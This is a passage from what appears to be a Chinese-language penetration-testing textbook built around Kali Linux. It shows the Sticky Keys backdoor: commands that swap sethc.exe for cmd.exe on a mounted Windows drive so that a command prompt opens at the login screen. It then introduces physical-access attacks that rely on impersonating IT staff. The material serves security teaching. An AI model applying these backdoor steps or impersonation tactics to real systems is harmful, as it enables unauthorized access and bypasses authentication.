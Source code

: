+   `magnify.exe`

+   `displayswitch.exe`

以下是将 `sethc.exe` 替换为 `cmd.exe` 的步骤：

```
cd /media/root/<ID>/Windows/System32/
cp cmd.exe /home/kali/Desktop
mv /home/kali/Desktop/cmd.exe /home/kali/Desktop/sethc.exe
rm sethc.exe
mv /home/kali/Desktop/sethc.exe . 
```

*图 5.7* 显示了 `cmd.exe` 的后门，当我们按下 *Shift* 键五次以调用 `sethc.exe` 时，命令提示符会出现，因为我们将 `cmd.exe` 替换为 `sethc.exe`。

![A picture containing text, electronics, computer, computer Description automatically generated](img/B17765_05_07.png)

图 5.7：显示 `Sticky Keys`（sethc.exe）后门运行命令提示符（cmd.exe）

我们已经探讨了如何清除 Windows 10 本地用户的密码，并通过合法的 Windows 程序设置后门。

# 创建一个伪造的物理设备

Kali 还可以帮助进行入侵者直接物理访问系统和网络的攻击。这种攻击可能具有风险，因为入侵者可能会被细心的人发现或被监控设备拍到。然而，回报可能非常可观，因为入侵者可以入侵包含重要数据的特定系统。

物理访问通常是社会工程学的直接结果，尤其是在使用冒充时。常见的冒充包括以下几种：

+   一个自称是帮助台或 IT 支持人员的人，声称只是需要快速通过安装系统升级来中断受害者。
